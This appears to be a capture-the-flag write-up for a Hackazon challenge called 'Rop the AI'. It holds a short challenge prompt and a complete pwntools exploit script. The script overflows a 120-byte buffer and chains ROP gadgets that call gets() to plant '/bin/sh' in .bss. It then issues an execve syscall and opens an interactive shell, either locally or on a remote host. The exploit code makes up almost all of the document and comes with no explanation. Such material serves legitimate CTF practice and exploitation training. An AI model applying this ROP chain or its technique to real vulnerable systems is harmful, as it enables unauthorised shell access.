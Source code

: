 # [Easy] Rop the AI (100 points)

> We managed to take back this configuration manager from the AI. However, we are unsure if the AI has tinkered with it somehow. Can you help us discover any vulnerabilities in the program and, if you find any, exploit them as proof of your work?
>
> Author information: This challenge is developed by [MdeVries@DeloitteNL](https://portal.hackazon.org/).

> Can you find and exploit the vulnerability?

```py
from pwn import *

def start(argv = [], *a, **kw):
  if args.GDB:
    return gdb.debug([exe] + argv, gdbscript = gdbscript, *a, **kw)
  elif args.REMOTE:
    return remote(sys.argv[1], sys.argv[2], *a, **kw)
  else:
    return process([exe] + argv, *a, **kw)

gdbscript = '''
break *vuln
init-pwndbg
continue
'''.format(**locals())

exe = './ROP-the-AI'
elf = context.binary = ELF(exe, checksec = False)
rop = ROP(elf)
context.log_level = 'info'

io = start()

ret = rop.find_gadget(['ret'])[0]
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rax_ret = rop.find_gadget(['pop rax', 'ret'])[0]
pop_rsi_pop_r15_ret = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx_ret = rop.find_gadget(['pop rdx', 'ret'])[0]
syscall_ret = rop.find_gadget(['syscall', 'ret'])[0]

payload = flat([
  b'A' * 120,
  ret,
  pop_rdi_ret,
  elf.bss(),
  elf.symbols['gets'],
  pop_rax_ret,
  0x3b,
  pop_rdi_ret,
  elf.bss(),
  pop_rsi_pop_r15_ret,
  0,
  b'pwnisfun',
  pop_rdx_ret,
  0,
  syscall_ret
])

print(io.recv().decode())
io.sendline(payload)
io.sendline(b'/bin/sh\x00')

io.interactive()
```
